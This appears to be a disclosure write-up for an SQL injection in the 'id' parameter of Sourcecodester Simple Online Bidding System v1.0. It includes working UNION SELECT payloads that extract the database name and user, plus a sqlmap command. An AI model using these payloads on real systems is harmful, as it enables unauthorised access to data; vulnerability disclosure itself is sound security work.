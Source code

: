 SQL injection vulnerability exists in Sourcecodester Simple Online Bidding System

official website:https://www.sourcecodester.com/php/14558/simple-online-bidding-system-using-phpmysqli-source-code.html

version:v1.0

route：/simple-online-bidding-system/admin/index.php?page=view_udet&id=1

injection parameter:$_Get['id']

#### 1.Vulnerability analysis

The parameter $_Get['id'] here is directly spliced into the sql statement after removing the null value. There is a sql injection point.

![image-20240515150743003](https://github.com/rockersiyuan/CVE/blob/main/SourceCodester%20Simple%20Online%20Bidding%20System%20Sql%20Inject-2.assets/image-20240515150743003.png)

#### 2.Vulnerability verification and exploit

We can exploit vulnerabilities using methods such as federated query injection. The database name and any information about the database can be obtained through this injection point.

First, you can test that the number of queries is 9, and further test the echo positions of the 9 query results, as shown in the figure below.

```
page=view_udet&id=-2+union+select+1,2,3,4,5,6,7,8,9%23
```

![image-20240515151020239](https://github.com/rockersiyuan/CVE/blob/main/SourceCodester%20Simple%20Online%20Bidding%20System%20Sql%20Inject-2.assets/image-20240515151020239.png)

Then you can select 5 and 6 as the echo positions, modify the payload to query the database name and current database user name.

```
page=view_udet&id=-2+union+select+1,2,3,4,database(),user(),7,8,9%23
```

![image-20240515151147953](https://github.com/rockersiyuan/CVE/blob/main/SourceCodester%20Simple%20Online%20Bidding%20System%20Sql%20Inject-2.assets/image-20240515151147953.png)

We can also use sqlmap to conduct injection point testing. The test results are shown in the figure below. There are also SQL injection vulnerabilities that can be exploited.

```
python sqlmap.py -u "http://x.x.x.x/admin/index.php?page=view_udet&id=1" --cookie="PHPSESSID=xxxxxxxxxxxxxxxxxxxxx" --batch
```

![image-20240515160859747](https://github.com/rockersiyuan/CVE/blob/main/SourceCodester%20Simple%20Online%20Bidding%20System%20Sql%20Inject-2.assets/image-20240515160859747.png)
